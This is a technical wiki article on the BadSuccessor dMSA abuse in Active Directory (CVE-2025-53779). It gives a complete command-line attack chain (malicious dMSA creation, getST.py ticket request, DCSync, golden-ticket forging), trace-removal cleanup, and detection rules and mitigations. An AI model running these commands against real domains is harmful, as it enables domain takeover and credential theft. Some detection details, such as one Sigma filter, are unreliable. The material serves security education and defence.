

title: "badsuccessor.py"
script: "(external tool / Impacket primitives)"
category: "AD Modification"
status: "Published"
protocols:
  - LDAP
  - Kerberos
  - DCOM
  - SAMR
ms_specs:
  - MS-ADTS
  - MS-KILE
  - MS-SFU
  - MS-PAC
ietf_specs:
  - RFC 4120
  - RFC 4511
cves:
  - CVE-2025-53779
mitre_techniques:
  - T1484.001
  - T1558
  - T1098
  - T1078
auth_types:
  - password
  - ntlm_hash
  - kerberos
  - aes_key
tags:
  - impacket
  - external-tooling
  - category/ad_modification
  - status/published
  - protocol/ldap
  - protocol/kerberos
  - ms-spec/ms-adts
  - ms-spec/ms-kile
  - ms-spec/ms-sfu
  - technique/dmsa_abuse
  - technique/pac_inheritance
  - technique/ad_write_primitive
  - cve/cve_2025_53779
  - mitre/T1484.001
  - mitre/T1558
  - mitre/T1098
aliases:
  - badsuccessor
  - dmsa-abuse
  - cve-2025-53779
  - pac-inheritance-abuse


# badsuccessor.py

> **One line summary:** BadSuccessor is a privilege escalation technique disclosed by Akamai researcher Yuval Gordon (`@YuG0rd`) in May 2025 and tracked as CVE-2025-53779; the attack abuses delegated Managed Service Accounts (dMSAs), a new service account type Microsoft introduced in Windows Server 2025 that supports seamless migration from legacy service accounts while preserving all permissions and group memberships through Kerberos PAC inheritance controlled by the `msDS-ManagedAccountPrecededByLink` attribute; an attacker with only CreateChild rights on any organizational unit (OU) in the domain (a non-privileged permission that Akamai found in 91% of the environments they surveyed) creates a new dMSA in that OU, sets the PrecededByLink attribute to point at any target principal including Domain Administrator, and sets `msDS-DelegatedMSAState` to 2 to mark the migration as complete, after which the KDC issues Kerberos tickets for the dMSA that contain the full authorization context (PAC with group memberships and SIDs) of the target principal; the attacker then extracts credentials or dumps NTDS.dit as the impersonated principal, completing domain takeover; **there is no official `badsuccessor.py` script in Impacket itself**: the entry name in this wiki reflects several popular community tool names (cybrly/badsuccessor, ibaiC/BadSuccessor, SharpSuccessor by Logan Goins, bloodyAD's `add badSuccessor` subcommand) that automate the AD write steps, combined with Impacket's own `getST.py -dmsa` flag which requests dMSA tickets using the `KERB-DMSA-KEY-PACKAGE` Kerberos extension; this article documents the complete technique, the Impacket primitives that enable it, the external tooling landscape, and the detection and mitigation posture; **continues AD Modification at 5 of 7 articles (71% complete)**.

| Field | Value |
|:---|:---|
| Technique name | BadSuccessor |
| CVE | CVE-2025-53779 |
| Discovery | Yuval Gordon (`@YuG0rd`) at Akamai, May 2025 |
| Microsoft response | Initially declined to patch; later patched with a CVE assignment |
| Category | AD Modification |
| Status | Published (technique documentation; no single canonical Impacket script) |
| Primary protocols | LDAP (for the AD write steps), Kerberos (for ticket acquisition and PAC inheritance), SMB/DCOM (for use after compromise) |
| Primary Microsoft specifications | `[MS-ADTS]` Active Directory Technical Specification, `[MS-KILE]` Kerberos Protocol Extensions, `[MS-SFU]` Service for User Protocol, `[MS-PAC]` Privilege Attribute Certificate Data Structure |
| Relevant IETF references | RFC 4120 Kerberos V5, RFC 4511 LDAP |
| MITRE ATT&CK techniques | T1484.001 Domain Policy Modification: Group Policy Modification (conceptually adjacent), T1558 Steal or Forge Kerberos Tickets, T1098 Account Manipulation, T1078 Valid Accounts |
| Authentication types | Any auth supported by Impacket (password, NTLM hash, Kerberos ticket, AES key) |
| Impacket primitive used | `getST.py -dmsa` flag (adds dMSA ticket request support via `KERB-DMSA-KEY-PACKAGE`), standard ccache tooling, secretsdump for post-takeover DCSync |
| Required attacker permission | CreateChild on any OU for `msDS-DelegatedManagedServiceAccount` object class. Akamai's research found this in 91% of surveyed environments. |
| Required target version | Windows Server 2025 domain controllers (prior versions don't implement dMSA) |


## Prerequisites

This article builds on:

- [`getST.py`](../02_kerberos_attacks/getST.md) for S4U, delegation foundations, PAC structure, and the existing `-dmsa` flag documentation. BadSuccessor's ticket request step uses `getST.py -dmsa` directly against the malicious dMSA the attacker creates.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) for PAC structure (KERB_VALIDATION_INFO, ExtraSids, group memberships) which is what gets inherited during the BadSuccessor attack.
- [`getTGT.py`](../02_kerberos_attacks/getTGT.md) for Kerberos ticket acquisition fundamentals.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) for the typical step after exploitation (DCSync with the inherited administrator TGT).
- [`addcomputer.py`](addcomputer.md) and [`dacledit.py`](dacledit.md) for prior AD write primitive context.
- [`rbcd.py`](rbcd.md) for an analogous privilege escalation technique based on AD modification that BadSuccessor now rivals in operational importance.
- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for overall Impacket architecture.

Familiarity with LDAP, AD object attributes, and Kerberos PAC semantics is essential.


## What the technique does

BadSuccessor turns a minor AD permission (CreateChild on any OU) into full domain compromise on any Windows Server 2025 domain. The attack has three steps:

### Step 1: Create a malicious dMSA

Using an account with CreateChild rights on any OU for `msDS-DelegatedManagedServiceAccount` objects, the attacker creates a new dMSA. An attacker who creates a new AD object has full write control over its attributes, so they can set any attribute value they want at creation time.

```text
dn: CN=evil_dmsa,OU=SomeWritableOU,DC=acme,DC=local
objectClass: top
objectClass: msDS-GroupManagedServiceAccount
objectClass: msDS-DelegatedManagedServiceAccount
sAMAccountName: evil_dmsa$
userAccountControl: 4096
msDS-ManagedAccountPrecededByLink: CN=Administrator,CN=Users,DC=acme,DC=local
msDS-DelegatedMSAState: 2
msDS-SupportedEncryptionTypes: 28
```

The two critical attributes:

- **`msDS-ManagedAccountPrecededByLink`**: points at ANY target principal in the domain. In the attack, this is set to Administrator (or any Tier 0 account). This attribute is what the KDC reads to determine "which account's permissions this dMSA inherited."
- **`msDS-DelegatedMSAState`**: set to `2`, indicating "migration completed." This tells the KDC that the dMSA is a legitimate successor that has finished receiving the superseded account's permissions.

No administrative permissions are needed for this step beyond the CreateChild on the OU. The legitimate migration process uses the same attributes in the same order; the attacker just skips the "only administrators can initiate migration" check by creating a new object from scratch rather than migrating an existing one.

### Step 2: Request a Kerberos ticket for the dMSA

Once the dMSA exists with the malicious attribute set, the attacker requests a Kerberos TGT for the dMSA. Impacket's `getST.py` supports this via the `-dmsa` flag, which sends the `KERB-DMSA-KEY-PACKAGE` preauthentication structure required for dMSA ticket acquisition:

```bash
# Request TGT for the attacker's own user
getTGT.py ACME.LOCAL/attacker:Passw0rd
export KRB5CCNAME=attacker.ccache

# Use S4U2Self with -dmsa to get a service ticket for the malicious dMSA
getST.py -k -no-pass -dc-ip 10.10.10.5 \
    -impersonate 'evil_dmsa$' \
    -self \
    -dmsa \
    'ACME.LOCAL/attacker'
# Output: evil_dmsa$.ccache
```

The KDC checks the dMSA's `msDS-ManagedAccountPrecededByLink` attribute. Because it points at Administrator and `msDS-DelegatedMSAState` is 2, the KDC believes this dMSA has completed migration from Administrator and builds the ticket's PAC using Administrator's full authorization context: group memberships (including Domain Admins SID 512), ExtraSids, SID history, and every other PAC field.

The resulting ticket is cryptographically valid (signed by the KDC with krbtgt), has a legitimate `KERB-DMSA-KEY-PACKAGE` structure, and contains Administrator's PAC. No forgery is needed; the KDC does the signing because from its perspective the ticket is legitimate.

### Step 3: Use the inherited privileges

The attacker now holds a ticket that authenticates as `evil_dmsa$` but carries Administrator's group memberships in the PAC. Any service that honors PAC group membership (i.e., essentially every Windows service) will treat the connection as a Domain Administrator.

Common followup actions:

```bash
# Use the dMSA ticket for DCSync to extract krbtgt hash
export KRB5CCNAME=evil_dmsa\$.ccache
secretsdump.py -k -no-pass -just-dc -user-status \
    'ACME.LOCAL/evil_dmsa$@dc01.acme.local'
# Dumps krbtgt NT hash plus all domain user hashes

# Or execute as Administrator on any target via psexec / wmiexec
psexec.py -k -no-pass 'ACME.LOCAL/evil_dmsa$@server.acme.local'

# Or forge golden tickets with the extracted krbtgt
ticketer.py -nthash <krbtgt-hash> -domain-sid S-1-5-21-... -domain ACME.LOCAL administrator
```

From the attacker's initial toehold (any account with CreateChild on any OU), they now hold Domain Administrator privileges, krbtgt hash, and the ability to forge arbitrary Golden Tickets. Full domain takeover.

### Why "BadSuccessor"

The attack name plays on dMSA terminology: dMSAs are "successors" to migrated service accounts. A maliciously configured dMSA is a "bad successor" to Administrator. The naming follows the established tradition of "Bad-*" named attacks (BadPodman, BadUSB, BadNeighbor, and similar). Yuval Gordon chose the name when publishing the Akamai research.


## Why it exists

### dMSA design rationale

Microsoft introduced delegated Managed Service Accounts (dMSAs) in Windows Server 2025 to address a real problem: organizations running legacy service accounts with static passwords that never rotate. Those accounts are vulnerable to Kerberoasting (weak passwords crackable offline), credential theft from services running under them, and general "we don't know whose account this is anymore" risks.

dMSAs solve this by:

1. **Binding authentication to specific machines** rather than passwords. Only authorized machines can retrieve the dMSA's credentials.
2. **Automatic key rotation** handled by the KDC (inherited from gMSA infrastructure).
3. **Migration path from legacy accounts**: a production service using a legacy service account can be migrated to a dMSA without changing the service's identity, SPNs, or group memberships. The existing integrations keep working.

The migration mechanic is elegant: when an administrator runs `Start-ADServiceAccountMigration` followed by `Complete-ADServiceAccountMigration`, Windows sets the dMSA's `msDS-ManagedAccountPrecededByLink` to the superseded account's DN and `msDS-DelegatedMSAState` to 2. From that point forward, the KDC treats the dMSA as "carrying the permissions of" the superseded account. Services that were accessing resources as the old account now access the same resources as the dMSA with identical authorization results.

### The flaw

The migration legitimacy check is at the PowerShell cmdlet layer, not the KDC layer. `Start-ADServiceAccountMigration` requires administrative permissions; the KDC just reads the dMSA's attributes and trusts that they were set by a legitimate migration process.

An attacker who can create a new dMSA directly (via LDAP, not via PowerShell migration cmdlets) bypasses the administrative check entirely. The KDC cannot distinguish a properly migrated dMSA from a maliciously crafted one; both have the same attribute values.

This is a classic "trust boundary in the wrong place" vulnerability. The admin check was intended to gate the PowerShell user experience. The actual operation that matters for security (what the KDC trusts) is the attribute state on the object, which can be set by anyone who creates the object.

### Why CreateChild on any OU is so common

Akamai's survey found 91% of examined environments had users outside Domain Admins with CreateChild rights on some OU. Common reasons:

- **Delegated account operators**: "Account Operators" group or equivalent delegated admin groups frequently have CreateChild on user or computer OUs.
- **Help desk delegations**: IT help desk staff often have delegated rights for password resets, account unlocks, and account creation.
- **Application service accounts**: software like SCCM, Azure AD Connect, and various management tools create accounts and may have CreateChild delegated.
- **Legacy delegations** from years past that were never cleaned up.
- **Self-service infrastructure**: some environments delegate creation rights to automated provisioning systems.

Before BadSuccessor, CreateChild was considered a low-privilege right because creating a user or computer account was not itself dangerous. BadSuccessor changed the threat model: CreateChild on `msDS-DelegatedManagedServiceAccount` objects is now equivalent to Domain Admin on Windows Server 2025 domains.

### The disclosure timeline

- **May 2025**: Akamai publishes Yuval Gordon's research in "Abusing dMSAs for AD Domination."
- **Initial Microsoft response**: Microsoft reviews the finding. Initially indicates this is working as designed; no patch planned immediately.
- **Community tooling wave**: SharpSuccessor (Logan Goins), ibaiC/BadSuccessor, cybrly/badsuccessor, Pentest-Tools-Collection BadSuccessor.ps1 all published within weeks.
- **Impacket integration**: `getST.py -dmsa` flag added to Impacket to support KERB-DMSA-KEY-PACKAGE ticket requests.
- **bloodyAD integration**: `add badSuccessor` subcommand added.
- **Rubeus PR #194** by JoeDibley adds dMSA support on the Windows side.
- **CVE-2025-53779 assigned**: Microsoft patches the issue after sustained community pressure and active exploitation.
- **HackTheBox "Eighteen" machine** released showcasing the attack as part of a full Windows Server 2025 kill chain (April 2026).

BadSuccessor became one of the most impactful AD vulnerabilities of 2025-2026, right alongside ESC8 (AD CS relay) and the various Kerberos RBCD / Shadow Credentials techniques from prior years.


## dMSA and PAC inheritance theory

Understanding BadSuccessor requires understanding three things: what a dMSA is, how the migration model works, and what PAC inheritance does in the Kerberos flow.

### dMSA object class hierarchy

```text
top
 └── user
      └── computer (unrelated; shown for context)
      └── msDS-GroupManagedServiceAccount (gMSA, pre-2025)
           └── msDS-DelegatedManagedServiceAccount (dMSA, Server 2025+)
```

dMSAs inherit from gMSAs. They have the gMSA features (authentication bound to specific machines, automatic key rotation via KDS) plus the migration attributes that BadSuccessor abuses.

### Key attributes

The dMSA-specific attributes relevant to BadSuccessor:

| Attribute | Purpose | Legitimate value | BadSuccessor value |
|:---|:---|||
| `msDS-ManagedAccountPrecededByLink` | DN of the legacy account being replaced | DN of the superseded service account | DN of Administrator or any target |
| `msDS-DelegatedMSAState` | Migration state indicator | 0=not started, 1=in progress, 2=completed | 2 (completed) without ever starting |
| `msDS-SupersededServiceAccountState` | Superseded account side of migration | 1 or 2 during legitimate migration | Not needed for attack |
| `msDS-SupersededServiceAccountLink` | Back reference from superseded account | Set by migration cmdlets | Not needed for attack |
| `msDS-GroupMSAMembership` | Who can retrieve the dMSA's credentials | Authorized machines or principals | Set to attacker's machine or user to allow ticket request |

The attacker only needs to set the first two attributes to fool the KDC. The `msDS-GroupMSAMembership` attribute controls who can request tickets for the dMSA; setting it to the attacker's machine or user allows the attacker to perform Step 2 of the attack.

### PAC inheritance at the KDC

When a Kerberos client requests a TGT for a dMSA (via KERB-DMSA-KEY-PACKAGE preauthentication), the KDC performs this logic (conceptually):

```text
1. Validate the request: authenticate the requester, verify authorization to retrieve dMSA credentials
2. Check if dMSA has completed migration: read msDS-DelegatedMSAState
3. If state == 2 (completed):
   a. Read msDS-ManagedAccountPrecededByLink to find predecessor DN
   b. Look up the predecessor account's group memberships, SID history, ExtraSids
   c. Build PAC with the predecessor's authorization context (NOT the dMSA's own context)
4. Sign the TGT with krbtgt key, embed the PAC
5. Return TGT
```

Step 3c is the critical behavior: the PAC is built from the PrecededByLink target, not from the dMSA's own group memberships. This is intentional for legitimate migration (services keep working), but catastrophic when the PrecededByLink is controlled by the attacker.

### The KERB-DMSA-KEY-PACKAGE structure

dMSA ticket requests use a specific Kerberos preauthentication padata type:

```text
KERB-DMSA-KEY-PACKAGE ::= SEQUENCE {
    current-keys     [0] SEQUENCE OF EncryptionKey
    previous-keys    [1] SEQUENCE OF EncryptionKey OPTIONAL
}
```

The current-keys field carries the dMSA's current encryption keys, which the requester must have retrieved via the MS-MSDS-ManagedPassword RPC interface (same mechanism as gMSAs). Only machines listed in `msDS-GroupMSAMembership` can retrieve these keys, which is why the attacker sets that attribute during Step 1.

Impacket's `getST.py -dmsa` flag implements this padata and the associated ticket flow. Without that flag, Impacket cannot request dMSA tickets even when the operator knows the keys.

### Why detection is hard by default

Windows Server 2025 does not enable audit logging for operations related to dMSA by default. The Akamai research and subsequent detection guidance consistently recommend enabling DS Access auditing on organizational units where CreateChild is delegated, specifically logging object creation events. Without this enabled, the attack leaves minimal log evidence: just a new LDAP object creation (barely audited) and a Kerberos ticket request that looks normal.


## How the tools work (Impacket primitives + community automation)

There is no single `badsuccessor.py` script in Impacket's examples directory. The technique requires two distinct operations: (1) creating and configuring the malicious dMSA via LDAP, and (2) requesting the Kerberos ticket. Impacket ships the second but not the first.

### The Impacket primitive: `getST.py -dmsa`

Looking at current Impacket source, `getST.py` has a `-dmsa` flag that enables dMSA ticket requests:

```bash
getST.py [-h] [...] [-dmsa] [-self] [-impersonate IMPERSONATE] [...]
```

The `-dmsa` flag tells getST.py to construct a KERB-DMSA-KEY-PACKAGE padata in the TGS-REQ instead of the usual PA-FOR-USER. Combined with `-self` (request a ticket for the impersonator itself) and `-impersonate <dmsa>` (specify the dMSA as the impersonation target, since the operator is authenticating as their own user but the resulting ticket is for the dMSA), this produces a valid dMSA ticket with the inherited PAC.

The exact invocation from the tryhackme walkthrough and Akamai research:

```bash
getST.py -k -no-pass -dc-ip 10.10.10.5 \
    -impersonate 'evil_dmsa$' \
    -self \
    -dmsa \
    'ACME.LOCAL/attacker'
```

Breaking this down:
- `-k -no-pass`: use Kerberos, don't prompt for password (assumes attacker has a valid ccache already).
- `-dc-ip 10.10.10.5`: explicit DC IP (needed because DNS might not resolve the DC from the attacker's side).
- `-impersonate 'evil_dmsa$'`: the dMSA account name with trailing `$` (service accounts have it).
- `-self`: this is a request targeting the self principal, in an S4U style.
- `-dmsa`: use KERB-DMSA-KEY-PACKAGE padata, not PA-FOR-USER.
- `'ACME.LOCAL/attacker'`: the attacker's own principal identity.

The resulting ticket is saved as `evil_dmsa$.ccache` (or similar, depending on naming convention). Its PAC contains Administrator's authorization context.

### Community automation for the AD write step

For Step 1 (creating and configuring the malicious dMSA), several external tools exist:

- **bloodyAD** by p0dalirius: `bloodyAD -d <domain> -u <user> -p <pass> --host <DC> add badSuccessor <dmsa_name>`. Single command that creates the dMSA, sets the required attributes, and configures `msDS-GroupMSAMembership` appropriately. Uses Impacket's LDAP layer internally. This is probably the most widely used automation at time of writing.
- **cybrly/badsuccessor** at `https://github.com/cybrly/badsuccessor`. Python tool with full BadSuccessor workflow including enumeration (`--enumerate`), attack (`--attack --target Administrator`), and cleanup (`--cleanup-all`) modes. Heavy reliance on Impacket internals. Supports session management to clean up multiple dMSAs.
- **ibaiC/BadSuccessor** at `https://github.com/ibaiC/BadSuccessor`. C# implementation (runs on Windows). Two subcommands: `find` (enumerate writable OUs) and `escalate` (create dMSA and trigger the escalation).
- **SharpSuccessor** by Logan Goins at `https://github.com/logangoins/SharpSuccessor`. .NET PoC explicitly aimed at weaponizing Yuval Gordon's research. C# tool that runs on Windows.
- **Pentest-Tools-Collection BadSuccessor.ps1** at `https://github.com/LuemmelSec/Pentest-Tools-Collection/tree/main/tools/ActiveDirectory`. PowerShell implementation for Windows.
- **powerview.py dev branch** by aniqfakhrul: Python LDAP tool with dMSA support in the development branch.
- **Akamai's Get-BadSuccessorOUPermissions.ps1**: an enumeration tool that finds OUs where users outside Domain Admins have CreateChild rights.

For a Linux attack host using Impacket, the canonical workflow is:

1. `bloodyAD add badSuccessor <dmsa_name>`: create and configure the malicious dMSA.
2. `getST.py -dmsa ...`: request the ticket with inherited PAC.
3. `secretsdump.py / psexec.py / etc.`: use the ticket for domain takeover operations.

Because all three steps are scriptable and none require interactive Windows access, the full attack can be automated from a Kali box end to end.

### What a "real" `badsuccessor.py` in Impacket would look like

If the Impacket maintainers ever add a unified `examples/badsuccessor.py`, it would most likely wrap the three steps into a single command:

```bash
badsuccessor.py ACME.LOCAL/attacker:Passw0rd@dc01.acme.local \
    -target-ou "OU=SomeWritable,DC=acme,DC=local" \
    -dmsa-name evil_dmsa \
    -impersonate administrator \
    -action secretsdump
```

The external tools already prefigure this structure. Whether Impacket formally adopts one remains to be seen. Until then, the technique is implemented by composition of existing tools.


## Authentication options

BadSuccessor's LDAP writes and Kerberos ticket requests work with any authentication method Impacket supports:

| Option | Notes |
|:---|:---|
| Password | Standard interactive authentication. |
| NTLM hash (`-hashes`) | Pass the hash to LDAP and Kerberos. |
| Kerberos ticket (`-k`) | Existing TGT from ccache. Most common in real engagements after initial access. |
| AES key (`-aesKey`) | Particularly relevant after secretsdump retrieves user AES keys. |

The authenticated principal must have CreateChild rights on the target OU for the dMSA object class. Domain user + that one delegated permission is sufficient; no further escalation is needed before running the attack.


## Practical usage

### Enumeration: finding exploitable OUs

Before attempting the attack, the operator needs to identify OUs where they have CreateChild rights.

```powershell
# Akamai's Get-BadSuccessorOUPermissions.ps1 (Windows side)
.\Get-BadSuccessorOUPermissions.ps1
# Output:
# Identity          OUs
# --          
# ACME\helpdesk     {OU=Staff,DC=acme,DC=local}
# ACME\it_admins    {OU=Workstations,DC=acme,DC=local, OU=Servers,DC=acme,DC=local}
```

From Linux with bloodyAD:

```bash
bloodyAD --host dc01.acme.local -d ACME.LOCAL -u attacker -p Passw0rd \
    get writable --otype OU --right CHILD
# Lists OUs where the current user has CreateChild
```

Both identify the attack surface: any OU where the compromised account can create new objects is a candidate.

### Full attack chain (Linux, Impacket + bloodyAD)

```bash
# Step 1: Create malicious dMSA
bloodyAD --host dc01.acme.local -d ACME.LOCAL -u attacker -p Passw0rd \
    add badSuccessor evil_dmsa
# Output: dMSA created, TGT saved to evil_dmsa.ccache

# Step 2 (if bloodyAD didn't save a usable TGT):
getTGT.py ACME.LOCAL/attacker:Passw0rd -dc-ip 10.10.10.5
export KRB5CCNAME=attacker.ccache

getST.py -k -no-pass -dc-ip 10.10.10.5 \
    -impersonate 'evil_dmsa$' \
    -self \
    -dmsa \
    'ACME.LOCAL/attacker'
# Output: evil_dmsa$_ts.ccache

# Step 3: Use the ticket for DCSync
export KRB5CCNAME=evil_dmsa\$_ts.ccache
secretsdump.py -k -no-pass -just-dc -user-status \
    'ACME.LOCAL/evil_dmsa$@dc01.acme.local'
# Output: krbtgt hash and all user hashes
```

This is the complete attack. Starting from an unprivileged domain user with one delegated CreateChild right, ending with the krbtgt hash and full domain compromise. Total time: well under a minute.

### Forging Golden Tickets after extraction

```bash
ticketer.py -nthash <krbtgt-nthash> \
    -domain-sid S-1-5-21-1234567890-... \
    -domain ACME.LOCAL \
    administrator
export KRB5CCNAME=administrator.ccache
psexec.py -k -no-pass ACME.LOCAL/administrator@dc01.acme.local
```

Standard Golden Ticket workflow once krbtgt is extracted. BadSuccessor gets the attacker to this point without needing any prior privilege.

### Cleanup (operational opsec)

Leaving the malicious dMSA in place is noisy; it will surface in any AD audit. Cleanup:

```bash
# With bloodyAD
bloodyAD --host dc01.acme.local -d ACME.LOCAL -u attacker -p Passw0rd \
    remove object 'CN=evil_dmsa,OU=SomeWritable,DC=acme,DC=local'

# Or with Impacket directly via ldap3/ldap
python -c "
from ldap3 import Connection, Server, MODIFY_REPLACE
server = Server('dc01.acme.local', get_info='ALL')
conn = Connection(server, user='ACME\\attacker', password='Passw0rd', auto_bind=True)
conn.delete('CN=evil_dmsa,OU=SomeWritable,DC=acme,DC=local')
"
```

cybrly/badsuccessor has a built-in `--cleanup-all` mode that tracks created dMSAs in a session file and removes them cleanly.

### Kerberos with existing ticket

```bash
export KRB5CCNAME=/tmp/attacker.ccache
bloodyAD --host dc01.acme.local -d ACME.LOCAL -u attacker -k \
    add badSuccessor evil_dmsa
```

Kerberos authentication works throughout. If the attacker already has a TGT, no password is needed at any step.

### Key primitives summary

| Primitive | Tool | Purpose |
|:---|:---||
| Identify writable OUs | bloodyAD `get writable --otype OU --right CHILD`, or Get-BadSuccessorOUPermissions.ps1 | Find attack surface |
| Create malicious dMSA | bloodyAD `add badSuccessor`, cybrly/badsuccessor `--attack`, SharpSuccessor | Step 1 of attack |
| Request dMSA ticket | `getST.py -dmsa` | Step 2 of attack |
| Use inherited privileges | secretsdump.py, psexec.py, ticketer.py, etc. | Step 3 of attack |
| Cleanup | bloodyAD `remove object`, cybrly/badsuccessor `--cleanup-all` | Operational opsec |


## What it looks like on the wire

### Step 1: dMSA creation (LDAP)

- **LDAP `add` operation** with the object classes and attributes shown earlier. Visible to any LDAP traffic capture.
- **Server response**: success (new DN created in AD).
- **Replication**: the new object propagates to other DCs via normal AD replication (visible in DRS traffic).

The write is structurally indistinguishable from a legitimate administrator creating a dMSA. Detection requires knowing that dMSAs shouldn't normally be created by the authenticated user.

### Step 2: dMSA ticket request (Kerberos)

- **AS-REQ from the attacker to the DC** (if the attacker doesn't already have a TGT for their own account). Standard Kerberos exchange.
- **TGS-REQ with KERB-DMSA-KEY-PACKAGE padata** (not the usual PA-TGS-REQ). This is distinctive; the KDC only issues dMSA tickets when it sees this padata.
- **TGS-REP containing the dMSA ticket** with Administrator's PAC. The PAC is visible in the response (encrypted to the dMSA's session key, which the attacker has).

### Step 3: Post-exploitation (DCSync, psexec, etc.)

Standard signatures for whatever operation is performed. DCSync traffic, SMB connections, etc. These look identical to any other Administrator-privileged operation because the PAC genuinely grants Administrator privileges.

### Wireshark filters

```text
ldap.modifyRequest or ldap.addRequest    # AD write operations
ldap contains "msDS-DelegatedManagedServiceAccount"   # dMSA-specific
ldap contains "msDS-ManagedAccountPrecededByLink"     # dMSA link attribute
kerberos.padata-type == 168              # KERB-DMSA-KEY-PACKAGE (hypothetical; confirm against packet capture)
kerberos.msg-type == 13                  # TGS-REP
```

The exact padata type number for KERB-DMSA-KEY-PACKAGE varies by Impacket/Microsoft version. Packet captures against a lab environment known to be vulnerable will confirm the value.


## What it looks like in logs

Detection is the hard part of BadSuccessor defense. By default, Windows Server 2025 does not audit the relevant operations.

### What needs to be enabled

Without tuning, the attack generates almost no log evidence. Required audit policy changes:

```text
Computer Configuration > Policies > Windows Settings > Security Settings > 
  Advanced Audit Policy Configuration > Audit Policies > DS Access
  - Audit Directory Service Changes: Success and Failure
```

Plus SACL configuration on organizational units where CreateChild is delegated, specifically auditing object creation events for `msDS-DelegatedManagedServiceAccount` objects.

### Events to monitor after tuning

- **Event 5136**: directory service object modified. Fires on the dMSA attribute changes if SACL is configured. Critical fields: AttributeLDAPDisplayName showing `msDS-ManagedAccountPrecededByLink` or `msDS-DelegatedMSAState`, and the target value. A user who is not an admin setting these attributes on a newly created dMSA is diagnostic.
- **Event 5137**: directory service object created. Fires on the initial dMSA creation. Subject = creating user, Object Class = msDS-DelegatedManagedServiceAccount.
- **Event 4624 Logon Type 3**: network authentication. Interesting in context (who authenticated, from where, to what).
- **Event 4768**: TGT issued. Service Name = the dMSA's name. Fires when the attacker requests the TGT in Step 2.
- **Event 4769**: service ticket issued. Fires during step 2 if S4U2Self is used.

Correlation rule:

```text
1. Event 5137 creates a dMSA by a user who is not an administrator
2. Within a short time window, Event 5136 modifies msDS-ManagedAccountPrecededByLink
3. Within another short time window, Event 4768 issues a TGT for that dMSA
4. Within another short time window, sensitive operations (DCSync, administrator logon) occur
```

This correlation chain uniquely identifies BadSuccessor exploitation.

### Starter Sigma rules

```yaml
title: Non-Admin User Creates dMSA Object (BadSuccessor CVE-2025-53779)
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5137
    ObjectClass: 'msDS-DelegatedManagedServiceAccount'
  filter_admins:
    SubjectUserName|contains:
      - 'Domain Admins'
      - 'Enterprise Admins'
      - 'Schema Admins'
  condition: selection and not filter_admins
level: critical
```

Requires tuning beforehand to know which users should legitimately create dMSAs (typically none outside administrative groups). False positive rate depends on environment.

```yaml
title: Suspicious msDS-ManagedAccountPrecededByLink Modification
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'msDS-ManagedAccountPrecededByLink'
  filter_sensitive_target:
    AttributeValue|contains:
      - 'CN=Administrator'
      - 'CN=krbtgt'
      - 'CN=Enterprise Admins'
      - 'CN=Domain Admins'
  condition: selection and filter_sensitive_target
level: critical
```

Very specific rule with high fidelity. Any time the PrecededByLink points at a sensitive principal, it's effectively confirmed malicious. True positives here are essentially always BadSuccessor exploitation.

```yaml
title: dMSA TGT Request Shortly After dMSA Creation
logsource:
  product: windows
  service: security
detection:
  creation:
    EventID: 5137
    ObjectClass: 'msDS-DelegatedManagedServiceAccount'
  ticket_request:
    EventID: 4768
    ServiceName|endswith: '$'
  timeframe: 10m
  condition: creation followed by ticket_request where ticket_request.ServiceName matches creation.ObjectName
level: high
```

Correlation rule. Legitimate dMSA creation rarely involves an immediate ticket request from the creator; the service account usually starts being used by automated processes minutes or hours later.

### BloodHound and other enumeration tool coverage

At the time of initial BadSuccessor publication, BloodHound's SharpHound collector did not gather the relevant attributes to surface dMSA attack paths. SharpHound issues have since been opened to add dMSA collection. As of mid-2026, SharpHound CE and major forks include dMSA-aware collection, making BadSuccessor paths visible in BloodHound's edge `ADCSESC` style path analysis. Defenders running BloodHound against their own environments should specifically check for dMSA-abuse edges.


## Detection and defense

### Detection opportunities summary

- **Audit policy tuning**: required. Default Windows Server 2025 logs miss the attack.
- **Event 5137 for dMSA object creation**: primary detection event.
- **Event 5136 for attribute modifications**: secondary detection, especially for PrecededByLink and DelegatedMSAState.
- **Correlation across 5137/5136/4768**: chain detection with high fidelity.
- **Network-layer Kerberos analysis**: Zeek or MDI can fingerprint KERB-DMSA-KEY-PACKAGE padata if the analyzer supports it.
- **BloodHound attack path identification**: once SharpHound collects dMSA attributes, BloodHound surfaces the paths.
- **Regular CreateChild permission audits**: baseline which users have this on which OUs, alert on changes, treat CreateChild on OUs in Windows Server 2025 domains as Tier 0-adjacent privilege.

### Preventive controls

The patch for CVE-2025-53779 is the primary control once available. For environments not yet patched:

- **Deny ACEs on sensitive OUs**: set deny ACEs preventing dMSA creation in OUs where legitimate dMSA use isn't expected. Akamai and JimSycurity both published PowerShell scripts implementing this mitigation (`JimSycurity/dMSAs` repository).
- **Restrict CreateChild delegations**: audit and tighten delegated permissions. In Windows Server 2025 domains, CreateChild on OUs should be treated as sensitive and minimized.
